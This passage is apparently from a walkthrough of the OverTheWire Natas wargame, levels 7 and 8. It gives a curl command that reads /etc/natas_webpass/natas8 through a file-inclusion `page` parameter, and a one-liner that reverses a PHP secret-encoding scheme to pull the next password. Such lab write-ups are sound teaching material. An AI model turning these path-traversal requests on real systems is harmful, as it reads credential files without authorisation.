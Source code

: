 It looks like it's loading the page through the `index.php` script using the `page` parameter. If we look at the hint, we see the password is in the `/etc/natas_webpass/natas8` file. Let's try requesting that by replacing the value in the `page` parameter.

```bash
curl -s "http://natas7:$natas7_pass@natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8" | sed "s/$natas7_pass//g" | egrep -o [[:alnum:]]{32}
```

[*Back to top*](#overthewire---natas)

## Level 8

![natas8_index.jpg](screenshots/natas/natas8_index.jpg)

Let's check the [sourcecode](http://natas8.natas.labs.overthewire.org/index-source.html):

```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

Here we can see a variable, `encodedSecret`, and a function, `encodeSecret`, being declared. Looks like all we need to do is reverse the `encodeSecret` function so our input matches the `encodedSecret`.

```bash
curl -s "http://natas8:$natas8_pass@natas8.natas.labs.overthewire.org/" -X 'POST' -d "secret=$(curl -s "http://natas8:$natas8_pass@natas8.natas.labs.overthewire.org/index-source.html" | grep -oP '\$encodedSecret&nbsp;=&nbsp;"\K[^"]+' | xxd -p -r | rev | base64 -d)&submit" | sed "s/$natas8_pass//g" | egrep -o [[:alnum:]]{32}
```
